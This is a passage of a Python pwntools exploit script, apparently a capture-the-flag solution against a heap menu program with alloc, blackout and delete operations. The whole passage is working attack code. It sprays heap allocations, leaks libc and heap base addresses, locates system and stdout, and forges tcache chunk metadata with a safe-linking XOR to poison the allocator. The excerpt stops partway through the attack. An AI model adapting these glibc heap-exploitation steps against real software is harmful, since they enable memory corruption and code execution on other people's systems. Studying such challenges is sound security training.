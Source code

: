 ```python
p += bulk_alloc_payload(0, b'A'*0x10)
p += bulk_alloc_payload(1, b'B'*0x1ff0)
p += bulk_alloc_payload(2, b'C'*0x30)
p += bulk_alloc_payload(3, b'D'*0x30)
p += bulk_alloc_payload(4, b'E'*tcache_size)
p += bulk_alloc_payload(5, b'F'*tcache_size)
p += bulk_alloc_payload(6, p64(0x21)*(0xa00//8))

p += bulk_alloc_payload(6, b'_', 0x10000-total)

for i in range(n):
    p += bulk_alloc_payload(6, b'_', 0x10000)

p += bulk_alloc_payload(6, b'_', 0x80) #adjust

log.info('sending...')
r.send(p)
log.info('payload sent')

for i in range(n):
    r.recvuntil(b'> ')
context.log_level = 'debug'
if args.D:
	debug(r, [0x13e1])
	#debug(r, [0x13fc, 0x15be])

alloc(6, b'g'*0x19+b'G')
blackout(6, b'G')
r.recvuntil(b'dacted]\n')
delete(1)

alloc(6, b'H'*0x1ff0)
blackout(2, b'a')
r.recvuntil(b'dacted]\n')
binleak = r.recvuntil(b'\n', True).ljust(8, b'\x00')
assert b'*' not in binleak # bad luck
leak = u64(binleak)
base = leak - 0x219ce0
dbg('base')
stdout = base + 0x21a780
system = base + 0x50d60
stdout_lock = base + 0x21ba70

alloc(6, b'I'*0x20)
alloc(6, b'J'*0xa00)

blackout(3, b'a')
r.recvuntil(b'dacted]\n')
binleak = r.recvuntil(b'\n', True).ljust(8, b'\x00')
assert b'*' not in binleak # bad luck
leak = u64(binleak)
heap = leak - 0x22e0
dbg('heap')

delete(5)
delete(4)

payload = b''
payload += b'1'*0x48
payload += flat(0x3c1, (heap+0x10) ^ ((heap+0x2000) >>12))

alloc(6, payload+b'\n', 0x60)
alloc(6, b'2'+b'\n', tcache_size)
```